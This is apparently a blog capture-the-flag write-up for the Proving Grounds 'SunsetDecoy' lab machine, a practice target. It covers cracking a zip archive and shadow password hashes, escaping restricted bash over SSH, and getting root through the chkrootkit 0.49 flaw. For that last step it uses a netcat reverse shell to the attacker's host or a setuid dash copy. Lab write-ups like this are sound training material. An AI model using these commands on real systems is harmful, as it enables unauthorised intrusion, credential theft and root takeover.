 ```yaml
---
title: "Proving grounds Play: SunsetDecoy"
layout: post
date: 2023-10-01 02:00
categories: writeup
---
```


Proving grounds Play - SunsetDecoy CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38

![img](/assets/images/CTF/Proving_Grounds/SunsetDecoy/web.png)

Download the zip file http://192.168.240.85/save.zip.

Extract the zip file using `unzip`, unfortunately it is password protected.

## Crack the password

Crack the password of the zip file using `fcrackzip` tool.

```sh
naveenj@hackerspace:|22:50|~/pg-play/SunsetDecoy/files/fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == manuel
```

Extract and list the extracted files.

```sh
-rw-r--r-- 1 naveenj naveenj 2018 Sep 30 22:52 crackme
-rw-r--r-- 1 naveenj naveenj  829 Jun 27  2020 group
-rw-r--r-- 1 naveenj naveenj   33 Jun 27  2020 hostname
-rw-r--r-- 1 naveenj naveenj  185 Jun 27  2020 hosts
-rw-r--r-- 1 naveenj naveenj 1807 Jun 27  2020 passwd
-rw-r----- 1 naveenj naveenj 1111 Jul  7  2020 shadow
-r--r----- 1 naveenj naveenj  669 Feb  2  2020 sudoers
```

Using `unshadow` to make it crackable for john.

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ unshadow passwd shadow > crackme
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ ls
crackme  group  hostname  hosts  passwd  shadow  sudoers
```

### Crack password using john

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828) 
```

SSH to the attacking machine using cracked credentials. Use the command `-t "bash --noprofile"` to escape the restricted bash.

```sh
naveenj@hackerspace:|23:39|~/pg-play/SunsetDecoy/files/etc$ ssh 296640a3b825115a47b68fc44501c828@192.168.240.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.240.85's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

## Privilege Escalation

List the files in the attacking machine, the file `honeypot.decoy` is compiled and executable.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -al
total 60
drwxr-xr-x 2 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Sep 30 23:15 .
drwxr-xr-x 3 root                             root                              4096 Jun 27  2020 ..
lrwxrwxrwx 1 root                             root                                 9 Jul  7  2020 .bash_history -> /dev/null
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  3583 Jun 27  2020 .bashrc
-rwxr-xr-x 1 root                             root                             17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                              1855 Jul  7  2020 honeypot.decoy.cpp
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 id -> /bin/id
lrwxrwxrwx 1 root                             root                                13 Jun 27  2020 ifconfig -> /bin/ifconfig
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    33 Sep 30 22:49 local.txt
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 ls -> /bin/ls
lrwxrwxrwx 1 root                             root                                10 Jun 27  2020 mkdir -> /bin/mkdir
-rwxr-xr-x 1 root                             root                               807 Jun 27  2020 .profile
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    66 Jun 27  2020 .selected_editor
-rwxrwxrwx 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    32 Aug 27  2020 user.txt
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   165 Sep 30 23:17 .wget-hsts
```

Execute the file with the option 5.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
```

The scan will be launched, and in order to know what is running we need to monitor the system process. Download [pspy](https://github.com/DominicBreuker/pspy) into the attacking machine and run it.

```sh
2023/09/30 23:46:05 CMD: UID=0     PID=16936  | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2023/09/30 23:46:05 CMD: UID=0     PID=16935  | /bin/bash /root/script.sh 
2023/09/30 23:46:05 CMD: UID=0     PID=16933  | /bin/sh -c /bin/bash /root/script.sh
2023/09/30 23:46:11 CMD: UID=1000  PID=834    | ./honeypot.decoy 
2023/09/30 23:46:11 CMD: UID=1000  PID=835    | sh -c /usr/bin/touch /dev/shm/STTY5246 
2023/09/30 23:47:01 CMD: UID=0     PID=837    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=838    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=839    | /bin/sh -c /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=840    | /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=843    | /bin/sh /root/chkrootkit-0.49/chkrootkit  
```

The process `chkrootkit-0.49` has been running as root, there is a local privilege escalation exploit exists in the exploitDB [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899).

Create a reverse shell using netcat and save it as `update` in the `/tmp` directory and make it executable `chmod +x update`.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
/usr/bin/nc 192.168.45.225 4444 -e /bin/sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ 
```

Once the chkrootkit runs the exploit file `update` we will get the root shell.

```sh
naveenj@hackerspace:|23:29|~/pg-play/SunsetDecoy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.85] 57632
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
```

**Root Obtained**

An alternative way to obtain root without using netcat is as follows:

Create a file named `update` in the `/tmp` directory and the contents should be as below.

```sh
#!/bin/bash

sudo cp /usr/bin/dash /tmp/dash; chmod u+s /tmp/dash;
```

Now run the `honeypot.decoy` binary and wait for few seconds.

List the file in the `/tmp` folder and list it's permissions.

```sh
drwxr-xr-x 18 root  root     4096 Jul 12  2020 ..
-rwsr-xr-x  1 root  root     121464 Sep 30 23:54 dash
```

Now run the binary `dash` as follows to obtain root.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ ./dash -p
# whoami
root
# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) groups=1000(296640a3b825115a47b68fc44501c828)
# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).